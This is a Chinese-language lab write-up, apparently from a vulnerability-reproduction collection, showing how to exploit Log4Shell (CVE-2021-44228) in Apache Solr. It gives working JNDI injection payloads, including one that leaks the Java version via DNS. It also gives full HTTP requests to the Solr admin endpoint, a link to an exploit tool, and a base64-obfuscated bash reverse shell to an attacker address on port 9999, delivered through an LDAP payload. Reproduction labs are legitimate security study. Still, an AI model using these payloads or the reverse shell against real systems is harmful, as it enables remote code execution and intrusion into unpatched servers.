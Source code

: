 # Apache Log4j2 lookup JNDI 注入漏洞 CVE-2021-44228

## 漏洞描述

Apache Log4j2 是Java语言的日志处理套件，使用极为广泛。在其2.0到2.14.1版本中存在一处JNDI注入漏洞，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码。

CVE-2021-44228常被称为`log4shell`。

参考链接：

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649

Payloads：

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CVE%20Exploits/Log4Shell.md

## 环境搭建

Apache Log4j2 不是一个特定的Web服务，而仅仅是一个第三方库，我们可以通过找到一些使用了这个库的应用来复现这个漏洞，比如Apache Solr。

Vulhub执行如下命令启动一个Apache Solr 8.11.0，其依赖了Log4j 2.14.1：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到Apache Solr的后台页面。

## 漏洞复现

`${jndi:ldap://${sys:java.version}.example.com}`是利用JNDI发送DNS请求的Payload，我们将其作为管理员接口的action参数值发送如下数据包：

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

![image-20220305220532335](images/202203052205527.png)

我们可以在DNS日志平台收到相关日志，显示出当前Java版本：

![image-20220305220601719](images/202203052206769.png)

实际利用JNDI注入漏洞，可以使用[这个工具](https://github.com/welk1n/JNDI-Injection-Exploit)。

![image-20220305223436251](images/202203052234596.png)

利用完毕后，可见`touch /tmp/awesome_poc`已经成功被执行：

![image-20220305223503054](images/202203052235135.png)

### 反弹shell

构造反弹shell命令：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}
```

![image-20220305223522125](images/202203052235402.png)

构造Payload：

```
GET /solr/admin/cores?action=${jndi:ldap://192.168.174.128:1389/chof5b} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

监听9999端口，接收反弹shell：

![image-20220305223552171](images/202203052235323.png)